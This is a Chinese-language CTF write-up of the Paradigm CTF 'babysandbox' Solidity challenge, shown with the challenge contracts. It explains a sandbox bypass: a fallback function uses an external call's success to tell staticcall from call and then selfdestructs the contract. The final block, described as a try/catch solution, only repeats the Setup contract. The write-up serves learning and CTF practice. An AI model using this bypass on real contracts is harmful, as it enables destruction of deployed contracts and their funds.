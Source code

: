 > 原文链接: https://www.anquanke.com//post/id/250115 


# paradigm-CTF babysandbox


                                阅读量   
                                **18694**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">1</a>
                                </b>
                                                                                    



[![](https://p3.ssl.qhimg.com/t011913e4a58b91487d.jpg)](https://p3.ssl.qhimg.com/t011913e4a58b91487d.jpg)

> 前言：找Ver👴想复现下qwb final的区块链。Ver👴给我发了这个比赛下面的一道题，发现这个比赛里面有很多高质量的智能合约题。从这里开始写一些不错的题目。

## babysandbox

看到题目名字就知道了题目考点： 沙盒<br>
给出合约<br>
BabySandbox.sol

```
pragma solidity 0.7.0;

contract BabySandbox `{`
    function run(address code) external payable `{`
        assembly `{`
            // if we're calling ourselves, perform the privileged delegatecall
            if eq(caller(), address()) `{`
                switch delegatecall(gas(), code, 0x00, 0x00, 0x00, 0x00)
                    case 0 `{`
                        returndatacopy(0x00, 0x00, returndatasize())
                        revert(0x00, returndatasize())
                    `}`
                    case 1 `{`
                        returndatacopy(0x00, 0x00, returndatasize())
                        return(0x00, returndatasize())
                    `}`
            `}`

            // ensure enough gas
            if lt(gas(), 0xf000) `{`
                revert(0x00, 0x00)
            `}`

            // load calldata
            calldatacopy(0x00, 0x00, calldatasize())

            // run using staticcall
            // if this fails, then the code is malicious because it tried to change state
            if iszero(staticcall(0x4000, address(), 0, calldatasize(), 0, 0)) `{`
                revert(0x00, 0x00)
            `}`

            // if we got here, the code wasn't malicious
            // run without staticcall since it's safe
            switch call(0x4000, address(), 0, 0, calldatasize(), 0, 0)
                case 0 `{`
                    returndatacopy(0x00, 0x00, returndatasize())
                    // revert(0x00, returndatasize())
                `}`
                case 1 `{`
                    returndatacopy(0x00, 0x00, returndatasize())
                    return(0x00, returndatasize())
                `}`
        `}`
    `}`
`}`
```

Setup.sol

```
pragma solidity 0.7.0;

import "./BabySandbox.sol";

contract Setup `{`
    BabySandbox public sandbox;

    constructor() `{`
        sandbox = new BabySandbox();
    `}`

    function isSolved() public view returns (bool) `{`
        uint size;
        assembly `{`
            size := extcodesize(sload(sandbox.slot))
        `}`
        return size == 0;
    `}`
`}`
```

Setup.py中的isSolved()进行了是否成功解决challenge的check.<br>
这里我不是很熟悉.slot这种用法，所以自己随便部署了一个进行试验。

[![](https://p3.ssl.qhimg.com/t01fc865c3552344b5e.png)](https://p3.ssl.qhimg.com/t01fc865c3552344b5e.png)

应该就是取了题目合约的整个字节码。要求把合约变成一个账户。或者直接让合约自毁应该也可以。<br>
然后我们分析下Sandbox中的各种方法

```
if eq(caller(), address()) `{`
                switch delegatecall(gas(), code, 0x00, 0x00, 0x00, 0x00)
                    case 0 `{`
                        returndatacopy(0x00, 0x00, returndatasize())
                        revert(0x00, returndatasize())
                    `}`
                    case 1 `{`
                        returndatacopy(0x00, 0x00, returndatasize())
                        return(0x00, returndatasize())
                    `}`
            `}`
```

这里说的是如果caller也就是调用者是自己的话。那么就会直接调用。<br>
delegatecall，也就是如果这里能设置出一些东西那么就可以成功改变合约状态了。

```
if lt(gas(), 0xf000) `{`
                revert(0x00, 0x00)
            `}`

            // load calldata
            calldatacopy(0x00, 0x00, calldatasize())

            // run using staticcall
            // if this fails, then the code is malicious because it tried to change state
            if iszero(staticcall(0x4000, address(), 0, calldatasize(), 0, 0)) `{`
                revert(0x00, 0x00)
            `}`

            // if we got here, the code wasn't malicious
            // run without staticcall since it's safe
            switch call(0x4000, address(), 0, 0, calldatasize(), 0, 0)
                case 0 `{`
                    returndatacopy(0x00, 0x00, returndatasize())
                    // revert(0x00, returndatasize())
                `}`
                case 1 `{`
                    returndatacopy(0x00, 0x00, returndatasize())
                    return(0x00, returndatasize())
                `}`
        `}`
```

第一行检测了gas是否够用，然后calldatacopy<br>
从调用数据的位置 f 的拷贝 s 个字节到内存的位置 t<br>
之后他就会利用staticall继续进行检测，但是我们可以发现，他从这里进入的staticcall 是进入了 自己的合约。 相当于对自己进行了一次重入。重入之后的调用方，就是msg.sender了。也就是可以正常进入delegatecall了。<br>
但是他利用的是staticcall在外层,所以还是不能改变合约的原有状态。

但是通过之后 他利用call进行了第二次的合约使用。也就是这里的delegatecall就可以完成任何想做的事情了。也就是我们想要的合约销毁。

那么到这里 整体的思路就很清晰了：

> <ol>
- 首先进入run(address target)中，delegatecall无法进入，进入staticcall
- staticall中进入delegatecall 完成一次调用。
- call中进入delegatecall完成一次调用。
- 需要一个函数在staticcall中不改变合约状态，在call中改变。
- delegatecall的target只需要直接selfdestruct就可以了。
</ol>

那么现在就考虑怎么给出一个办法，使得两次调用所执行的方法不同？<br>
尝试思路：
<li>我们考虑到利用全局变量进行赋值。但是可想而知这个方法并不可靠。因为我们是需要staticall通过检测的，全局变量赋值还是改变了合约的原有状态。
<pre><code class="hljs javascript">function()payable external`{`
 if(success==true)`{`
 selfdestruct(msg.sender);
 `}`
 else`{`
 success=true;
 `}`
`}`
</code></pre>
也就是利用类似上述的伪代码。这里是不可做的。
</li>
1. 利用特征进行判断。但是我们可以看到每次进行交易不管是传的gas还是什么所有的call和staticall中的特征都完全相同。 所以这个方法也很难进行bypass。
```
if(gas&gt;value)`{`
return ;
`}`
else`{`
selfdestruct(msg.sender);
`}`
```

考虑使用call外部变量进行改变，这种是可行的一个办法。我们可以通过在外部合约设置一个方法 我们利用内部的call方法进行请求，如果能正确返回状态值则代表当前状态就是call了。<br>
因为外部Call方法的状态即使revert()他也会只返回一个状态码0，并不会直接阻断整个交易的正常运行。

```
fallback()external payable`{`
        bool success;
        (success,)=address(0x3c725134d74D5c45B4E4ABd2e5e2a109b5541288).call("");
        if(!success)`{`
            return;
        `}`
        else`{`
            selfdestruct(address(0));
        `}`

    `}`
```

[![](https://p1.ssl.qhimg.com/t01c434d26adc035fea.png)](https://p1.ssl.qhimg.com/t01c434d26adc035fea.png)

这样就成功绕过了沙箱

这个是从github的官方wp中学到的 ，感觉应该和3的意思相同? 用等同于python的语法try catch 这样可以直接避免直接revert()

```
contract Setup `{`
 BabySandbox public sandbox;

 constructor() `{`
     sandbox = new BabySandbox();
 `}`

 function isSolved() public view returns (bool) `{`
     uint size;
     assembly `{`
         size := extcodesize(sload(sandbox.slot))
     `}`
     return size == 0;
 `}`
`}`
```

学到了很多opcode以及call staticcall delegatecall的知识。
